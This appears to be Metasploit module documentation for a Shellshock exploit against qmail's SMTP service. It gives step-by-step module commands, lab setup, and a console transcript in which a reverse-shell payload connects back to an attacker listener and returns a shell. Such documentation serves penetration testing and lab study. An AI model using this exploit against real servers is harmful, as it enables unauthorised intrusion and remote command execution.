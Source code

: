 ## Vulnerable Application

Any qmail version (works on latest versions, qmail-1.03 and netqmail-1.06) running on a system with a vulnerable BASH (Shellshock). In order to execute code, /bin/sh has to be linked to bash (usually default configuration) and a valid recipient must be set on the RCPT TO field (usually admin@exampledomain.com). The exploit does not work on the "qmailrocks" community version as it ensures the MAILFROM field is well-formed.

## Setting up a vulnerable environment

Install Qmail on a Linux server with a shellshock vulnerable bash. Ensure that /bin/sh is linked to bash. Create an e-mail account on that qmail server. IMPORTANT: there is a community version of qmail, "qmailrocks" (http://qmailrocks.thibs.com/) which apply a patch that checks the vulnerable MAILFROM parameter. This version (with the patch applied) is NOT vulnerable. If you are using this version, change the "int mfcheck()" function on qmail-smtpd.c and ensure it returns always 0 (after applying the patch) and re-compile qmail-smtpd.

## Verification Steps

  1. `use exploit/unix/smtp/qmail_bash_env_exec`
  2. `set RHOST <target IP>`
  3. `set MAILTO <valid e-mail recipient>`
  4. `set payload cmd/unix/reverse`
  5. `set LHOST <local IP>`
  7. optionally set `RPORT` and `LPORT`
  8. `exploit`
  9. **Verify** a new shell session is started
  
## Options

### MAILTO

A valid e-mail recipient. Usually, admin@targetdomain.com can be used.

## Scenarios
**Tested on qmail-1.03 on Debian 6.0.6 (squeeze). BASH version 4.1.5(1).**

```
msf > use exploit/unix/smtp/qmail_bash_env_exec 
msf exploit(qmail_bash_env_exec) > set rhost 192.168.1.113
rhost => 192.168.1.113
msf exploit(qmail_bash_env_exec) > set mailto "admin@testqmail2.test"
mailto => admin@testqmail2.test
msf exploit(qmail_bash_env_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(qmail_bash_env_exec) > show options 

Module options (exploit/unix/smtp/qmail_bash_env_exec):

   Name    Current Setting        Required  Description
   ----    ---------------        --------  -----------
   MAILTO  admin@testqmail2.test  yes       TO address of the e-mail
   RHOST   192.168.1.113          yes       The target address
   RPORT   25                     yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.102    yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(qmail_bash_env_exec) > run

[*] Started reverse TCP double handler on 192.168.1.102:4444 
[*] 192.168.1.113:25 - Sending the payload...
[*] 192.168.1.113:25 - Sending RCPT TO admin@testqmail2.test
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo RvZfov9i2ZuveLXA;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "RvZfov9i2ZuveLXA\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 19 opened (192.168.1.102:4444 -> 192.168.1.113:48167) at 2017-05-04 15:11:02 +0200

whoami
vpopmail
```
